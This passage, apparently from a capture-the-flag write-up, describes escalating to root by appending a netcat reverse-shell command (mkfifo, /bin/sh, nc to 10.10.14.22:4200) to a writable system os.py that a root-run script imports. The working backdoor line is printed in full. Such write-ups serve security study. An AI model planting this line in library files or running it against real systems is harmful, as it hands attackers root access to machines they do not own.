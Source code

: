 Since I have write access to this file, I added the following line to the end of os.py to execute an os command to create a reverse shell to my machine.

```
vi /usr/lib/python2.7/os.py
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.22 4200 >/tmp/f")
```

When the root account ran reporter.py it imported os.py and executed the command to create a reverse shell and as a result called back to my machine to give me a shell as root.

![image](assets/81485617-4f931400-921c-11ea-940f-2497cf9d6b44.png)
